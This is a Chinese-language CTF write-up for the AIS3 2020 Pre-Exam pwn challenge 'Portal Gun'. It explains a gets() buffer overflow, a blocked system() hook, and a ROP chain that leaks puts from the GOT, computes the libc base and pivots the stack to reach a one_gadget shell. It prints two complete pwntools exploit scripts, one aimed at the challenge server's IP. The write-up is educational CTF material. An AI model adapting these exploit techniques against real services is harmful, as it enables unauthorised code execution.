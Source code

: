 ```yaml
---
title: "AIS3 2020 Pre-Exam CTF pwn Portal Gun writeup"
date: 2020-06-20T15:42:33+08:00
categories: ["writeup"]
tags: ["CTF", "pwn"]
draft: false
---
```


# AIS3 2020 Pre-Exam CTF Portal Gun Writeup

Author: Sophie Shin <br>
Time: 2020/06/10 10:00 A.M. <br>
為了配合AIS3要抽選手繳交 wirteup，就延後發文了

## 前言
2019 第一次參加 MyFirstCTF 之後有幸錄取 AIS3 課程，便開始入坑 pwn <br>
在那之前完全沒碰過組合語言，計算機組織也直到今年(大三）才修，<br>
入坑一開始極其痛苦，發現很多觀念還沒學得很扎實，便開始看原文書《Computer Systems. A Programmer’s Perspective》，並且參與台灣好厲駭計畫，聆聽線上課程資源。　<br>

去年只解出 BOF，今年的 pwn 很幸運的解出了 3 題，也靠 pwn 才足以進 Pre-Exam 前一百名，但還是有待加強！ <br>
Portal Gun 應該是我至今解過算是很有挑戰的題目 (等級還不足XD)，就認真寫了 Writeup <br>

## 使用的分析工具
* GDB-peda
* objdump
* readelf
* ROPgadget
* onegadget
* r2

## 流程
1. 使用 `file` 指令觀察： <br>
	* 此檔案的使用何種 ISA ，x86 還是 x86-64 ?
	* 是否是 dynamic linking?
![](https://i.imgur.com/GFuMQix.png)

2. 接著使用 `checksec` 指令 (GDB-peda 有內建也可以使用) <br>

![](https://i.imgur.com/ZYovs2c.png)

發現檔案並沒有開啟 *Canary* 保護

3. 使用 r2 工具來觀察程式的行為 <br>
可以看到，程式會做 `gets var_70h` ，而 `var_70h` 儲存在 `rbp-0x70` ，因此可以朝 BOF 的方向下手
![](https://i.imgur.com/A3o0LvH.png)

此題透過 `objdump` 或 `r2` 觀察後發現，裡面有 import `system()` 函式，因此可先以 Buffer overflow 的手法來 hook `system()`

![](https://i.imgur.com/VpQr8yq.png)

* 使用 `objdump -d -M intel ./portal_gun | less` 來觀察整個程式行為 <br>
objdump 工具的方便在於，可直接觀察整個程式的流程，並且可透過搜尋或 `grep` 的方式，來直接判斷是否有可用的**進入點**，例如是否有 import `system()`，或是呼叫 `system("/bin/sh")` 等。

![](https://i.imgur.com/uIYenhP.png)

嘗試寫了腳本，在本地端確實成功地執行 shell !
```python=
from pwn import *

offset = 0x70
call_sys = 0x4006e8
payload = 'a'*offset + p64(call_sys)
p = process("./portal_gun")
#p = remote("60.250.197.227", 10002)
p.recvline()
p.recvline()
p.sendline(payload)
p.interactive()
p.close()
```

![](https://i.imgur.com/pC44vSW.png)

以為這樣就能成功，但是... Hook Dection! <br>

![](https://i.imgur.com/FIbWdTG.png)

仔細思考，題目除了給 `portal gun` 檔案，還給了 `libc.so.6` 和 `hook.so` <br>

使用 `r2` 觀察 `hook.so` 裡 `system()` 被呼叫的行為，只有單純印出 `** system function hook **` 就 return 了，也就是說 **此題的 `portal_gun` 有將 `system()` 的程式行為竄改過，因為引入了 `hook.so` 的 `system()` 來使用** <br>

因此，我們必須使用 `libc.so.6` 計算出 *C library base address* 來取得 *shell*，難度頓時增加許多。 <br>

4. 計算 *library base address* <br>
使用 `readelf -a libc.so.6 | grep "puts"` 來找出 `puts()` 在 `libc.so.6` 的 offset

![](https://i.imgur.com/xgZzo3L.png)

再透過 BOF 的手法來使用 gets 函數，<br>
使用 `ROPgadget --binary portal_gun | grep "pop rdi.*ret$"` 找出可用的 gadget `pop rdi ; ret` 後，便可在 return 到 `puts()` 前，放入 `puts_got` 的位址，之後在 return 到 `puts()` 時，便能 leak 出 puts 在程式實際執行的位址，計算出實際的 *library base address*<br>

![](https://i.imgur.com/IaC9Www.png)

計算出 base 位址後，使用 `onegadget libc.so.6` 找出執行 `execve("/bin/sh", 0, 0);` 的 offset，加上 base 之後，即實際的執行位址 (變動的)

5. return gets()，使用 ROP 手法輸入 gadgets <br>
使用 `pop rdi ; ret` 這個 gadget，放入 data section 的位址 (要寫入的位址)，在 return 到 `gets()` 時，就會再次將 payload 輸入到 data section 中 <br>

並使用 `leave; ret` 的 gadget ，來達到 *stack migration* 的手法，將 stack pointer 挪到 data section 使用，以便執行一連串的手法來執行 shell

解法如下：
```python=
from pwn import *

puts_got = 0x601018
libc_puts = 0x0809c0
one_gadget = 0x4f322
call_puts = 0x400560
call_gets = 0x400580
main = 0x400720
offset = 0x70 # 0x70+8 to return
data_sec = 0x601040
pop_rdi = 0x4007a3 # pop rdi ; ret
ret = 0x400291 # ret
pop_rbp = 0x400608 # pop rbp ; ret
leave = 0x40073b # leave ; ret

#p = process("./portal_gun")
p = remote("60.250.197.227", 10002)

p.recvline()
p.recvline()
payload = 'a'*offset + p64(data_sec) + p64(pop_rdi) + p64(puts_got) + p64(call_puts) 
payload += p64(pop_rdi) + p64(data_sec) + p64(call_gets)
payload += p64(leave) + p64(data_sec) + p64(leave)
p.sendline(payload)

# leak
leak_addr = p.recvline()
puts_run_address = u64(leak_addr[:-1].ljust(8, "\x00")) # u64
print(hex(puts_run_address))
base = puts_run_address - libc_puts
call_shell = base + one_gadget

# input payload in data section
payload = p64(call_shell) + p64(ret) + p64(ret) + p64(call_shell)
p.sendline(payload)
p.interactive()
p.close()
```